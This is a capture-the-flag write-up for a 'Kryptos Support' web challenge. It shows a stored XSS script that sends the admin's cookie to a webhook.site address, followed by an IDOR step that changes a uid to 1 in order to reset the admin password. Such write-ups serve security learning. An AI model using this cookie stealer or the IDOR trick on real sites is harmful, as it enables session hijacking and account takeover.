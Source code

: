 # Kryptos Support

So we are greeted with a website with some input box, we send a message and see that admin will review ticket:

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So maybe some sort of XSS where we have to steal cookie?

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We craft a quick cookie stealer:

```
<script>document.location='https://webhook.site/888b441e-ed74-4bba-8c87-e40f690d376a?c='+document.cookie</script>
```

And get a hit in our webhook:

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we capture a session cookie

{% hint style="warning" %}
The payload broke the chal and breaks the redirection lol be careful
{% endhint %}

We see the redirection to /tickets

<figure><img src="../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And then we spot /settings:

<figure><img src="../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we change the password and see the odd request:

<figure><img src="../../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And from there it is very easy, we change uid to 1 to change the password of the admin and it works, so we can go back to /login and get the flag:

<figure><img src="../../../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
